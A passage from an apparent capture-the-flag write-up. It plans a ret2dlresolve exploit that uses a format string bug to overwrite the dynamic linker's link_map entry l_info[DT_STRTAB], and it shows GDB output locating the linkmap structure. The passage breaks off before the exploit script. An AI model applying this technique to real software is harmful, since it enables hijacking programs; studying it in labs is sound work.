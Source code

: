 And we can also notice that in `_dl_fixup`, it just require upto l_info in linkmap, not more. So we just simply overwrite l_info to change `l_info[DT_STRTAB]` (DT_STRTAB = 5) and it's done.

- Idea 1:

This is a program which just take input, not output. So that we can use a technique called `ret2dlresolve`. 

With this technique, we just want to overwrite or change data in `l_info[DT_STRTAB]` because we know with various `%s%<number>$s`, we can overwrite linkmap, as a result, overwrite l_info. Moreover, there is no buffer overflow so we cannot fake reloc_arg. 

Therefore, we will fake linkmap and changing `l_info[DT_STRTAB]` is enough for us.

- Summary:

  1. Get linkmap format string offset
  2. Create fake linkmap

# 3. Exploit

- Stage 1: Get linkmap format string offset

First, we know that there is a pointer to linkmap. So with a `%<number>$s` large enough, we can overwrite linkmap structure. Let's fire up GDB to get linkmap pointer then linkmap structure by examining any @plt. We will take fgets@plt as example:

```
gef➤  # 0x400540 <fgets@plt>
gef➤  x/3i 0x400540
   0x400540 <fgets@plt>:    jmp    QWORD PTR [rip+0x200ae2]        # 0x601028 <fgets@got.plt>
   0x400546 <fgets@plt+6>:  push   0x2                             # (reloc_arg)
   0x40054b <fgets@plt+11>: jmp    0x400510                        # (dl_resolver)

gef➤  # x/2i (dl_resolver)
gef➤  x/2i 0x400510
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008 (linkmap pointer)
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010 (dl_runtime_resolve)

gef➤  # x/xg (linkmap pointer)
gef➤  x/xg 0x601008
0x601008:    0x00007ffff7ffe180           # (linkmap structure)

gef➤  # x/12xg (linkmap structure)
gef➤  x/12xg 0x00007ffff7ffe180
0x7ffff7ffe180: 0x0000000000000000  0x00007ffff7ffe720    <-- l_addr & l_name
0x7ffff7ffe190: 0x0000000000600e20  0x00007ffff7ffe730    <-- l_ld & l_next
0x7ffff7ffe1a0: 0x0000000000000000  0x00007ffff7ffe180    <-- l_prev & l_real
0x7ffff7ffe1b0: 0x0000000000000000  0x00007ffff7ffe708    <-- l_ns & l_libname
0x7ffff7ffe1c0: 0x0000000000000000  0x0000000000600e20    <-- l_info[0] & l_info[1]
0x7ffff7ffe1d0: 0x0000000000600f00  0x0000000000600ef0    <-- l_info[2] & l_info[3]
```

So we know that linkmap pointer is `0x601008` which contain dynamic linkmap structure address. If we write successfully into linkmap structure, we can see our value when examine linkmap structure. We will use pwntool to automate via core file (attach GDB is much more slower):
